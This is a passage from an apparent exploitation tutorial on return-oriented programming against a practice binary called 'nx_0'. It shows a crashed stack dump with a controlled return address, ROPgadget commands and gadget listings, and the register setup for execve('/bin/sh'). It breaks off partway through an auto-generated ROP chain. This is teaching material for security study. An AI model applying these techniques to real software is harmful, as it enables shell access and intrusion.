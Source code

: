     0008| 0xffffd618 ('C' <repeats 42 times>, "\n")
    0012| 0xffffd61c ('C' <repeats 38 times>, "\n")
    0016| 0xffffd620 ('C' <repeats 34 times>, "\n")
    0020| 0xffffd624 ('C' <repeats 30 times>, "\n")
    0024| 0xffffd628 ('C' <repeats 26 times>, "\n")
    0028| 0xffffd62c ('C' <repeats 22 times>, "\n")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x42424242 in ?? ()
**Finding ROP Gadgets**
https://github.com/JonathanSalwan/ROPgadget

    ROPgadget --binary nx_0
    
it will find ropgadgets

    0x08078234 : xor esi, esi ; call 0x8049658
    0x080a6b61 : xor esi, esi ; mov eax, esi ; pop ebx ; pop esi ; pop edi ; ret
    0x0804fbe3 : xor esi, esi ; pop ebx ; mov eax, esi ; pop esi ; pop edi ; pop ebp ; ret
    0x0809671c : xor esi, esi ; ret 0xf01
    
    Unique gadgets found: 7843

**System calls**
If you already learned x86_ASM , you can understand how linux system call work. In this case we want to call execve to execute our new shell `execve('/bin/sh')` . 
Example

eax=0xb
ebx='/bin/sh'
ecx=0
edx=0

**Generating with ROPgadget**
Command 

    ROPgadget --binary nx_0 --ropchain
   
  It will generate ropchains automatically for `execve('bin/sh')`

    ROP chain generation
    ===========================================================
    
    - Step 1 -- Write-what-where gadgets
    
            [+] Gadget found: 0x8057c45 mov dword ptr [edx], eax ; ret
            [+] Gadget found: 0x80737cb pop edx ; ret
            [+] Gadget found: 0x80ad7c6 pop eax ; ret
            [+] Gadget found: 0x8057200 xor eax, eax ; ret
    
    - Step 2 -- Init syscall number gadgets
    
            [+] Gadget found: 0x8057200 xor eax, eax ; ret
            [+] Gadget found: 0x8080c6a inc eax ; ret
    
    - Step 3 -- Init syscall arguments gadgets
    